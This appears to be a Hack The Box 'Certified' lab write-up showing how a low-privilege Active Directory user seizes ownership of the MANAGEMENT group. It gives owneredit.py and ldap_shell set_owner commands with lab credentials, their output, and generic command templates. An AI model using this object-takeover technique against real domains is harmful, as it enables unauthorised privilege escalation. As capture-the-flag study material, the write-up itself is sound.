 The user JUDITH.MADER@CERTIFIED.HTB has the ability to modify the owner of the group MANAGEMENT@CERTIFIED.HTB.

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

![[Pasted image 20241105010915.png]]

```bash
owneredit.py -action write -owner 'judith.mader' -target 'judith.mader' 'certified.htb'/'judith.mader':'judith09'
```

 ```bash
owneredit.py -action write -new-owner 'judith.mader' -target 'judith.mader' 'certified.htb'/'judith.mader':'judith09'
/usr/local/bin/owneredit.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.10.1.dev1+20231106.134307.9aa93730', 'owneredit.py')
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[-] Could not modify object, the server reports insufficient rights: 00000005: SecErr: DSID-03152E13, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```

### LDAP_Shell

If `owneredit.py` gives issues, ldap_shell works well:

```bash
ldap_shell certified.htb/judith.mader:judith09
[INFO] Starting interactive shell
judith.mader# set_owner management judith.mader
[INFO] Found Target DN: CN=Management,CN=Users,DC=certified,DC=htb
[INFO] Target SID: S-1-5-21-729746778-2675978091-3820388244-1104
[INFO] Found Grantee DN: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[INFO] Grantee SID: S-1-5-21-729746778-2675978091-3820388244-1103
[INFO] DACL modified successfully! judith.mader now Owner of management!
```

 User has ownership over group:

![[Pasted image 20241105011745.png]]

### Summary
#### owneredit.py

```bash
owneredit.py -action write -owner '<username>' -target '<target>' '<domain>'/'<username>':'<password>'
```

#### ldap_shell

```bash
ldap_shell <domain>/<username>:<password>
set_owner <target> <target_user>
```

